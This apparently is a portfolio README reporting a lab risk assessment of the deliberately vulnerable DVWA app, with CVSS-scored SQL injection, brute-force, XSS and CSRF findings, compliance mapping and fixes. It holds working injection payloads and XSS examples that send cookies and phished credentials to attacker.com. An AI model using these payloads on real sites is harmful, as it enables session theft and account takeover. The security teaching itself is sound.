









# Web Application Risk Assessment | OWASP Top 10 & CVSS Scoring


**A structured web application risk assessment conducted against DVWA using OWASP Testing Methodology — identifying 4 High/Critical vulnerabilities with CVSS-scored findings, business impact analysis, compliance mapping, and remediation recommendations formatted as an audit-grade deliverable.**

---

## 📋 Table of Contents

1. [GRC Relevance — Why This Project](#-grc-relevance--why-this-project)
2. [Risk Findings Summary](#-risk-findings-summary)
3. [Lab Architecture](#-lab-architecture)
4. [Tools & Environment](#-tools--environment)
5. [Assessment Methodology](#-assessment-methodology)
6. [Critical Risk Findings — Deep Dive](#-critical-risk-findings--deep-dive)
7. [Risk Register & Remediation Priority Matrix](#-risk-register--remediation-priority-matrix)
8. [GRC Concepts Applied](#-grc-concepts-applied)
9. [Screenshots Index](#-screenshots-index)
10. [Repository Structure](#-repository-structure)

---

## GRC Relevance — Why This Project

Web application risk assessment is a core GRC control activity. It provides the evidence base for application security controls under ISO 27001, NIST CSF, and regulatory frameworks including GDPR, PCI DSS, and SOC 2. A GRC analyst engaging in or reviewing a web application assessment is expected to:

- Evaluate application controls against established security standards (OWASP Top 10)
- Score and classify findings using CVSS to support risk treatment decisions
- Produce audit-grade documentation with business impact analysis and compliance mapping
- Map identified weaknesses to specific framework control requirements
- Deliver remediation recommendations aligned to risk priority and compliance obligation

This project simulates that engagement end-to-end. **Burp Suite Community Edition** was used to conduct a manual security assessment against **DVWA (Damn Vulnerable Web Application)** — a deliberately vulnerable application used for security training — in a fully isolated lab environment.

**Outcome: 4 High/Critical vulnerabilities identified. CVSS-scored findings report produced with business impact analysis, OWASP/MITRE ATT&CK mapping, and ISO 27001/NIST CSF control references — format directly replicable as an internal audit deliverable.**

> 💡 **GRC Context:** ISO 27001 Annex A.8.28 (Secure coding) and A.8.29 (Security testing in development and acceptance) mandate that organisations test applications for security weaknesses. NIST CSF ID.RA-1 (Asset vulnerabilities are identified and documented) and PR.IP-2 (System development lifecycle includes security) both require systematic application security testing as a documented control activity.

---

## Risk Findings Summary

| # | Vulnerability | Severity | CVSS v3.0 | OWASP Top 10 | MITRE ATT&CK | GRC Priority |
|---|---|---|---|---|---|---|
| 1 | **SQL Injection** | 🔴 Critical | 9.8 | A03:2021 – Injection | T1190 | P1 — Immediate |
| 2 | **Brute Force — No Rate Limiting** | 🟠 High | 7.5 | A07:2021 – Auth Failures | T1110 | P2 — 7 days |
| 3 | **Cross-Site Scripting (XSS)** | 🟠 High | 7.3 | A03:2021 – Injection | T1059.007 | P2 — 7 days |
| 4 | **Cross-Site Request Forgery (CSRF)** | 🟡 Medium | 6.5 | A01:2021 – Broken Access Control | T1185 | P3 — 30 days |

**Average CVSS Score: 7.8 — High**

---

## Lab Architecture

```
┌─────────────────────────────────────────────────────────────────┐
│                    Windows 10 Host (VirtualBox)                 │
│                                                                 │
│   ┌──────────────────────┐      ┌──────────────────────────┐    │
│   │   Firefox Browser    │◄─────┤   Burp Suite CE Proxy    │    │
│   │  Proxy: 127.0.0.1    │      │   Port: 8080             │    │
│   └──────────────────────┘      └───────────┬──────────────┘    │
│                                             │                   │
└─────────────────────────────────────────────┼───────────────────┘
                                              │ Bridged Network
                                              ▼
                        ┌────────────────────────────────────┐
                        │   Kali Linux VM (10.83.80.7)       │
                        │                                    │
                        │   Apache 2.4.66 Web Server         │
                        │   MariaDB 11.8.5 Database          │
                        │   DVWA Application                 │
                        │   PHP 8.x                          │
                        └────────────────────────────────────┘
```

| Component | Details |
|---|---|
| Host OS | Windows 10 Professional |
| Virtualisation | Oracle VirtualBox |
| Assessment Platform | Kali Linux 2026-W06 |
| Network Mode | Bridged Adapter (virtio-net) |
| Target Application | DVWA — Damn Vulnerable Web Application |
| Proxy Tool | Burp Suite Community Edition v2026.1.3 |
| Web Browser | Mozilla Firefox 147.0 |
| Target IP | 10.83.80.7 |

---

## Tools & Environment

| Tool | Version | Purpose |
|---|---|---|
| [Burp Suite CE](https://portswigger.net/burp/communitydownload) | 2026.1.3 | HTTP proxy, traffic interception, request analysis |
| [DVWA](https://github.com/digininja/DVWA) | Latest | Deliberately vulnerable web application — assessment target |
| Kali Linux | 2026-W06 | Assessment platform hosting DVWA |
| Apache | 2.4.66 | Web server for DVWA |
| MariaDB | 11.8.5 | Database backend |
| Mozilla Firefox | 147.0 | Browser configured as Burp proxy client |
| VirtualBox | Latest | Virtualisation |

---

## Assessment Methodology

This assessment follows the **OWASP Web Security Testing Guide (WSTG)** — the industry-standard methodology for web application security testing.

```
1. Information Gathering
   └─► Map application structure, endpoints, and functionality

2. Configuration & Authentication Testing
   └─► Identify security misconfigurations and weak authentication

3. Input Validation Testing
   └─► Test for injection vulnerabilities (SQLi, XSS)

4. Session Management Testing
   └─► Test for CSRF, session fixation, token weaknesses

5. Traffic Analysis
   └─► Intercept and analyse HTTP request/response via Burp Suite proxy

6. Risk Documentation
   └─► CVSS scoring, business impact analysis, compliance mapping,
       remediation recommendations — audit-grade output
```

**Testing approach:** All vulnerabilities identified through manual testing — not automated scanning. Each finding exploited to demonstrate real-world impact, then documented with Burp Suite traffic evidence, CVSS score, business impact, compliance violation, and remediation guidance.

---

### Setup — Phase 1: Kali Linux & DVWA Configuration

**Kali Linux IP assigned — 10.83.80.7:**



**Install DVWA and dependencies:**
```bash
sudo apt update
sudo apt install dvwa -y
sudo systemctl start apache2
sudo systemctl start mysql
sudo systemctl status apache2
```


**Database configuration:**
```sql
sudo mysql -u root
CREATE DATABASE dvwa;
CREATE USER 'dvwa'@'localhost' IDENTIFIED BY 'p@ssw0rd';
GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwa'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```


---

### Setup — Phase 2: DVWA Initialisation

Navigated to `http://10.83.80.7/dvwa/setup.php` → clicked **Create / Reset Database**:



Logged in with default credentials (`admin` / `password`) — this default credential pair is itself a control weakness noted in the assessment:




Security level set to **Low** to demonstrate exploitability:


---

### Setup — Phase 3: Burp Suite Proxy Configuration

Launched Burp Suite CE → Temporary Project → Burp Defaults:



Firefox configured to route traffic through Burp proxy (127.0.0.1:8080):


Traffic interception confirmed — Burp capturing all DVWA requests:




---

## Critical Risk Findings — Deep Dive

---

### 🔴 Finding 1 — SQL Injection

| Field | Detail |
|---|---|
| **Severity** | 🔴 CRITICAL |
| **CVSS v3.0** | 9.8 |
| **CWE** | CWE-89 — Improper Neutralisation of SQL Commands |
| **OWASP Top 10** | A03:2021 – Injection |
| **MITRE ATT&CK** | T1190 — Exploit Public-Facing Application |
| **Endpoint** | `/dvwa/vulnerabilities/sqli/` — Parameter: `id` (GET) |
| **ISO 27001 Control** | A.8.28 — Secure coding; A.8.29 — Security testing |
| **NIST CSF** | PR.IP-2 — System development lifecycle includes security |

**Description:** The application passes user input directly into SQL queries without sanitisation or parameterisation. An attacker can inject SQL commands to bypass authentication, extract the entire database, or modify/delete records.

**Step 1 — Normal query (baseline):**

Input: `1`


Expected result — single record returned:
```
ID: 1 | First name: admin | Surname: admin
```

**Step 2 — Malicious payload injection:**

Input: `1' OR '1'='1`



**Result: ALL 5 user records extracted from the database** — authentication bypass achieved.

**Burp Suite HTTP traffic evidence:**


```http
GET /dvwa/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271&Submit=Submit HTTP/1.1
Host: 10.83.80.7
Cookie: security=low; PHPSESSID=cb6c2c8008bacc26e10a8795c2efd72
```

**Root cause — vulnerable backend query:**
```sql
-- Vulnerable: user input concatenated directly
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1'
-- '1'='1' is always TRUE → returns all records
```

**Business Impact:**

| Impact | Description | Severity |
|---|---|---|
| Confidentiality | Complete database exposure — passwords, PII, financial data | Critical |
| Integrity | Attacker can INSERT, UPDATE, DELETE all records | Critical |
| Availability | Database can be dropped — full service disruption | High |
| Authentication | Login forms bypassable with `' OR '1'='1` | Critical |
| Compliance | GDPR Article 32 violation — fines up to €20M or 4% annual revenue | Critical |

**GRC Risk Verdict:** A CVSS 9.8 finding with confirmed exploitation represents an immediate P1 risk. Under ISO 27001 A.8.28, this constitutes a secure coding control failure requiring immediate remediation and a root cause review of the development process. Under GDPR Article 32, failure to implement appropriate technical measures to prevent SQL injection is a reportable data protection breach if personal data is accessed.

**Risk Treatment:**
```php
// Vulnerable — direct concatenation
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";

// Secure — parameterised query (primary fix)
$stmt = $conn->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
$stmt->bind_param("i", $id);
$stmt->execute();
```

Additional controls: input validation (type casting), least-privilege database accounts (SELECT only — no DROP/DELETE/UPDATE), WAF deployment with OWASP Core Rule Set.

---

### 🟠 Finding 2 — Brute Force — No Rate Limiting or Account Lockout

| Field | Detail |
|---|---|
| **Severity** | 🟠 HIGH |
| **CVSS v3.0** | 7.5 |
| **CWE** | CWE-307 — Improper Restriction of Excessive Authentication Attempts |
| **OWASP Top 10** | A07:2021 – Identification and Authentication Failures |
| **MITRE ATT&CK** | T1110 — Brute Force |
| **Endpoint** | `/dvwa/vulnerabilities/brute/` — Parameters: `username`, `password` (GET) |
| **ISO 27001 Control** | A.8.5 — Secure authentication; A.5.17 — Authentication information |
| **NIST CSF** | PR.AC-7 — Users and devices are authenticated |

**Description:** The authentication endpoint accepts unlimited login attempts with no rate limiting, no account lockout, and no CAPTCHA. Credentials are also transmitted via HTTP GET — exposing passwords in server logs, browser history, and proxy logs permanently.

**Step 1 — Successful login (baseline):**

Credentials: `admin` / `password`



**Step 2 — Failed login — no lockout triggered:**

Credentials: `admin` / `3232`



**Observation:** No rate limiting, no CAPTCHA, no lockout — unlimited attempts confirmed.

**Burp Suite HTTP traffic evidence:**


```http
GET /dvwa/vulnerabilities/brute/?username=admin&password=3232&Login=Login HTTP/1.1
Host: 10.83.80.7
```

**Control failures identified:**

| Control | Status | Risk |
|---|---|---|
| Rate limiting | ❌ Absent | Unlimited automated attempts |
| Account lockout | ❌ Absent | Account never locks |
| CAPTCHA | ❌ Absent | Automated tools trivially effective |
| HTTP POST method | ❌ GET used | Credentials exposed in logs and history |
| MFA | ❌ Absent | Single-factor only |

**Credential exposure — server log evidence:**
```
10.83.80.5 - - [18/Feb/2026] "GET /dvwa/vulnerabilities/brute/
?username=admin&password=SuperSecret123&Login=Login HTTP/1.1" 200
```
The password `SuperSecret123` is now permanently recorded in Apache access logs, Burp proxy logs, browser history, and any network monitoring tool in the path.

**Business Impact:**

| Impact | Description | Severity |
|---|---|---|
| Account Takeover | Automated attack discovers valid credentials | Critical |
| Credential Stuffing | Harvested passwords tested across other services | High |
| Compliance Risk | Violates PCI DSS Requirement 8, ISO 27001 A.5.17 | High |
| Privacy Violation | Passwords exposed in plain text in server logs | High |

**GRC Risk Verdict:** Absent authentication controls against brute force represent a failure of ISO 27001 A.8.5 (Secure Authentication) and A.5.17 (Authentication Information). Under PCI DSS Requirement 8.3.4, account lockout after a maximum of 10 attempts is mandatory. This is a P2 finding — not P1 only because it requires a valid username as a prerequisite.

**Risk Treatment:** Implement rate limiting (maximum 5 attempts per 15 minutes), account lockout after 5 failed attempts, CAPTCHA after 3 failures, change to HTTP POST method, implement MFA for privileged accounts, enforce HTTPS for all authentication endpoints.

---

### 🟠 Finding 3 — Cross-Site Scripting (XSS)

| Field | Detail |
|---|---|
| **Severity** | 🟠 HIGH |
| **CVSS v3.0** | 7.3 |
| **CWE** | CWE-79 — Improper Neutralisation of Input During Web Page Generation |
| **OWASP Top 10** | A03:2021 – Injection |
| **MITRE ATT&CK** | T1059.007 — JavaScript |
| **Endpoint** | `/dvwa/vulnerabilities/xss_r/` — Parameter: `name` (GET) |
| **ISO 27001 Control** | A.8.28 — Secure coding; A.8.29 — Security testing |
| **NIST CSF** | PR.IP-2 — System development lifecycle includes security |

**Description:** The application reflects user input into HTML responses without output encoding or Content Security Policy. An attacker can inject malicious JavaScript that executes in any victim's browser — enabling session hijacking, credential harvesting, and malware distribution.

**Step 1 — Normal input (baseline):**

Input: `Test User`


Expected result: `Hello Test User` — input safely echoed.

**Step 2 — JavaScript payload injection:**

Input: `<script>alert('XSS Vulnerability Found!')</script>`


**Result:** JavaScript executed in browser — arbitrary code execution confirmed.

**Burp Suite HTTP traffic evidence:**


```http
GET /dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E HTTP/1.1
Host: 10.83.80.7
```

**Vulnerable response — input reflected unencoded into HTML:**
```html
<pre>Hello <script>alert('XSS Vulnerability Found!')</script></pre>
```

**Real-world attack scenarios:**

**Session cookie theft:**
```javascript
<script>document.location='http://attacker.com/steal.php?c='+document.cookie;</script>
```
Impact: Attacker obtains victim session cookie and impersonates them — full account takeover without credentials.

**Credential harvesting:**
```javascript
<script>document.body.innerHTML='<form action="http://attacker.com/phish.php">
<input name="user" placeholder="Username"><input name="pass" type="password">
<input type="submit" value="Login"></form>';</script>
```
Impact: Fake login form presented to victim — credentials sent to attacker server.

**Business Impact:**

| Impact | Description | Severity |
|---|---|---|
| Session Hijacking | Steal authentication tokens — account takeover | High |
| Credential Theft | Capture credentials via injected fake forms | High |
| Malware Distribution | Redirect victims to exploit kits | Medium |
| Regulatory Exposure | User data theft triggers GDPR breach notification obligation | High |

**GRC Risk Verdict:** XSS enabling session hijacking or credential theft constitutes a personal data breach under GDPR Article 4(12) — triggering the 72-hour supervisory authority notification obligation under Article 33. This is a P2 finding with direct regulatory compliance implications.

**Risk Treatment:**
```php
// Vulnerable — direct output
echo "Hello " . $_GET['name'];

// Secure — output encoding (primary fix)
echo "Hello " . htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
```

Additional controls: Content Security Policy header (`default-src 'self'; script-src 'self'`), HTTPOnly and Secure cookie flags, input whitelist validation.

---

### 🟡 Finding 4 — Cross-Site Request Forgery (CSRF)

| Field | Detail |
|---|---|
| **Severity** | 🟡 MEDIUM |
| **CVSS v3.0** | 6.5 |
| **CWE** | CWE-352 — Cross-Site Request Forgery |
| **OWASP Top 10** | A01:2021 – Broken Access Control |
| **MITRE ATT&CK** | T1185 — Browser Session Hijacking |
| **Endpoint** | `/dvwa/vulnerabilities/csrf/` — Parameters: `password_new`, `password_conf` (GET) |
| **ISO 27001 Control** | A.8.28 — Secure coding; A.8.26 — Application security requirements |
| **NIST CSF** | PR.AC-4 — Access permissions are managed |

**Description:** The password change function accepts requests from any origin without validating an anti-CSRF token. An attacker can craft a malicious link or hidden request that, when triggered by an authenticated user, changes the victim's password — giving the attacker persistent account access.

**Step 1 — Legitimate password change (baseline):**

New Password: `newpass123`



Password changed with no CSRF token validation and no re-authentication required.

**Burp Suite HTTP traffic evidence:**


```http
GET /dvwa/vulnerabilities/csrf/?password_new=newpass123&password_conf=newpass123&Change=Change HTTP/1.1
Host: 10.83.80.7
Cookie: security=low; PHPSESSID=cb6c2c8008bacc26e10a8795c2efd72
```

**Control failures identified:**

| Control | Status |
|---|---|
| Anti-CSRF token | ❌ Absent |
| HTTP POST for state-changing operations | ❌ GET used |
| Re-authentication for sensitive actions | ❌ Absent |
| Origin/Referer validation | ❌ Absent |

**Attack flow:**
```
1. Victim is logged into the application
2. Attacker sends phishing email:
   "You've won a prize! Click here to claim →"
   (link = http://target/csrf/?password_new=hacked123&...)

3. Victim clicks — browser auto-includes session cookie
4. Server validates session ✓ but checks no CSRF token ✗
5. Password changed to attacker's value
6. Attacker logs in — full persistent access
```

**Real-world banking scenario:**
```html

```
Result: Funds transferred without victim's knowledge or consent.

**Business Impact:**

| Impact | Description | Severity |
|---|---|---|
| Account Takeover | Password change → persistent attacker access | High |
| Unauthorised Actions | All authenticated actions can be forged | Medium |
| Compliance Risk | Broken Access Control — OWASP A01:2021 | Medium |
| Privilege Escalation | If admin account compromised — full system access | Critical |

**GRC Risk Verdict:** CSRF affecting authentication functions (password change) represents a broken access control finding under ISO 27001 A.8.26 (Application security requirements) and NIST CSF PR.AC-4. P3 priority — not immediately exploitable without a social engineering prerequisite, but constitutes a reportable control gap in any security audit.

**Risk Treatment:**
```php
// Generate CSRF token on page load
session_start();
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

// Include in form as hidden field
<input type="hidden" name="csrf_token"
       value="<?php echo $_SESSION['csrf_token']; ?>">

// Validate on submission — reject if missing or mismatched
if (!hash_equals($_SESSION['csrf_token'], $_POST['csrf_token'])) {
    die("CSRF validation failed");
}
```

Additional controls: change to HTTP POST for all state-changing operations, implement SameSite=Strict cookie attribute, require current password re-entry for sensitive changes, validate Origin/Referer headers.

---

## Risk Register & Remediation Priority Matrix

| Priority | Finding | CVSS | Business Impact | Compliance Violation | Treatment | Timeline |
|---|---|---|---|---|---|---|
| **P1 — Immediate** | SQL Injection | 9.8 | Full database compromise, authentication bypass, PII exposure | GDPR Art. 32, ISO 27001 A.8.28, PCI DSS Req. 6.3 | Parameterised queries, input validation, WAF | Now |
| **P2 — 7 days** | Brute Force — No Rate Limiting | 7.5 | Account takeover, credential stuffing, password log exposure | PCI DSS Req. 8.3.4, ISO 27001 A.8.5 | Rate limiting, lockout, MFA, POST method, HTTPS | 7 days |
| **P2 — 7 days** | Cross-Site Scripting (XSS) | 7.3 | Session hijacking, credential theft, GDPR breach notification triggered | GDPR Art. 33 (72hr notification), ISO 27001 A.8.28 | Output encoding, CSP header, HTTPOnly cookies | 7 days |
